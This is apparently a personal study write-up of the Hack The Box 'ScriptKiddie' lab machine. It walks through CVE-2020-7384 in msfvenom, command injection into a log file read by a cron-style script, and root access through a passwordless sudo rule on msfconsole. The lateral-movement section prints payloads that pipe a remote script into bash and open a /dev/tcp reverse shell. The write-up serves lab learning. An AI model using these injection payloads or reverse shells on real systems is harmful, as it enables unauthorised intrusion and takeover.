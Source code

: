 ```yaml
---
title: "ScriptKiddie HTB"
date: 2021-08-28T17:30:30
categories:
  - study
tags:
- Linux
- Outdated Software
classes: wide
---
```

ScriptKiddie is an easy rated Linux box from May 2021. The HTB writeup PDF describes it as:

>*"ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability (CVE-2020-7384), 
along with classic attacks such as OS command injection and an insecure passwordless sudo configuration. "*

[Link.][htbboxlink]

[htbboxlink]: https://app.hackthebox.eu/machines/scriptkiddie

<h2> Enumeration</h2>
**Nmap scan results:**

```
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    syn-ack Werkzeug httpd 0.16.1 (Python 3.8.5)
| http-methods: 
|_  Supported Methods: GET POST HEAD OPTIONS
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<h4>What is the scan telling us?</h4>

- Port 22 is open running ssh, specifically OpenSSH 8.2p1 on Ubuntu.
- Reveals a web server on 5000, with Werkzeug 0.16.1 running on Python 3.8.5. [Werkzeug](https://werkzeug.palletsprojects.com/en/2.0.x/) is *"a comprehensive WSGI web application library."* 

[WSGI](https://wsgi.readthedocs.io/en/latest/what.html) refers to:

>*"Web Server Gateway Interface. It is a specification that describes how a web server communicates with web applications, and how web applications can be chained together to process one request."*

Accessing the site at http://10.10.10.226:5000/ we see 3 inputs for a basic "hackers toolbox".

There are numerous "tools" present on the page, including a Nmap, msfvenom and a SearchSploit tool. 

I assume that the Nmap and SearchSploit simply run the binaries and display results. The venom generator allows us to upload files to it, this 
could be a potential exploit point. But at this point I am lost, reading writeups it seems that the vulnerability is within msfvenom 
itself. This [Github page](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md) by the exploit author Justin Steven explains the vuln and references it as [CVE-2020-7384](https://nvd.nist.gov/vuln/detail/CVE-2020-7384). They explain that:

>*"There is a command injection vulnerability in msfvenom when using a crafted APK file as an Android payload template.
Metasploit Framework provides the msfvenom tool for payload generation. For many of the payload types provided by msfvenom, it allows the user to provide a "template" using the -x option."*

It seems that using a "poisoned" or evil APK file as a template can result in command injection on the template user's system. More details:

>*"An attacker who could trick an msfvenom user into using a crafted APK file as a template could execute arbitrary commands on the user's system.
For example, an attacker could prepare and publish a crafted APK file that they believe is an enticing template. If a user of Metasploit Framework obtains that APK file and attempts to use it as an msfvenom template, arbitrary commands can be executed on that user's machine."*

For this it seems the following criteria can result in a command injection vuln:

>*"If a crafted APK file has a signature with an "Owner" field containing A single quote (to escape the single-quoted string) followed by shell metacharacters."*




<h2>Foothold</h2>

We follow the instructions from the previously referenced Github page. Which involved downloading a python script to generate an "evil.apk" file, the script will: 

>*"produce a crafted APK file that executes a given command-line payload when used as a template."*

In this case we will be using it to execute a reverse shell on the box.
We start our Netcat listener, set the target as Android on the website, we do this because APK files are Android Package files. 
We then upload the APK and catch the shell. Now we have a shell, we upgrade to a tty with `/usr/bin/script -qc /bin/bash /dev/null`. 

We find the user flag in `kid`'s home folder.

<h2>Lateral movement</h2>
I am way out of my depth here.

According to the writeups it seems that lateral movement to another user is required.
We see that there is a script called `scanlosers.sh` in a user called `pwn`'s home directory. 
Reading the script we see that it reads rows from the `/home/kid/logs/hackers` file to read IP addresses and run nmap on them: We find the other logs in `./html`, a handy command is:

```bash
kid@scriptkiddie:~/html$ grep -R logs .
grep -R logs .
./app.py:        with open('/home/kid/logs/hackers', 'a') as f:
```
This searches recursively files for the presence of logs.

We see that `app.py` writes to `/home/kid/logs/hackers.`

Reading app.py we see that it writes to the logs directory when non-alphanumeric characters are input into the website's SearchSploit field. 
The writer assumes that submitted non-alpha characters represent an attempt to *"hacK"* them. So the script notes ip addresses of users who submit them in a log and run Nmap on them. 

`scanlosers.sh` does not perform any input validation so we can perform "arbitrary OS command injection" by inputting our reverse shell in there. [Ippsec](https://youtu.be/Yn3iGF8xMQI?t=1979) does an excellent analysis of `scanlosers.sh`, after watching their video I now understand why our command would be executed.

```bash
#!/bin/bash
 
log=/home/kid/logs/hackers
 
cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done
 
if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

```

We can see that the script reads the log file, then field separates the log based upon a single character separator of a ' ' space. Every field from the third field onward is treated as an ip.

Once the script determines what an ip is, it is then nmap'd by the command in the `do` part of the script:

```bash
sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null"
```

Ippsec points out that if the log file contains a string that has whatever for the initial two fields and then a semicolon, it would essentially nullify the first part of the command which is `nmap --top-ports 10 -oN recon/$`. 

Then a desired command can be placed in the third field, which is then ended with a hash(#) to comment out the rest of the command `.nmap ${ip} 2>&1 >/dev/null`. Their example is:

```bash
echo 'abc def ;curl 10.10.14.2:8000/rev.sh | bash #' > hackers
```

This would result in the initial and end part of the original command being nullified by `;` and `#`. As the first part is not a command so does not execute, then our command is read, and then the end of the original command is commented out.
Our command would then be executed by `scanlosers.sh`, giving us a shell as `pwn` as `pwn` owns `scanlosers.sh`. 

Putting our reverse shell into `/home/kid/logs/hackers.` with: 
`echo 'a b $(bash -c "bash -i &>/dev/tcp/YOURIP/YOURPORT 0>&1")' > /home/kid/logs/hackers` 
gives us the reverse shell as pwn.

<h2>Privilege Escalation</h2>

Now that we are `pwn`, running `sudo -l` we see:

```bash
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

Since we can run msfconsole as sudo, we simply run it as sudo and then drop into the integrated ruby shell with command `irb`. 
Then run `system("/bin/bash")` which drops us into a root shell, and the root flag can be found in the usual `/root/root.txt`.

<h4>For next time:</h4>

- Enumerate the contents of the home directories more carefully, figure out what scripts are doing and what they may be writing to.
- Ippsec uses pspy alot, which seems to be a good process monitor. Run it, and then interact with the website to see what processes are called and when.
- Learn bash.
- Things sometimes write logs, in which case figure out where they are writing to and what else uses them.
- As for foothold, try to find a CVE on everything, don't be afraid to just try them. It isn't a race.

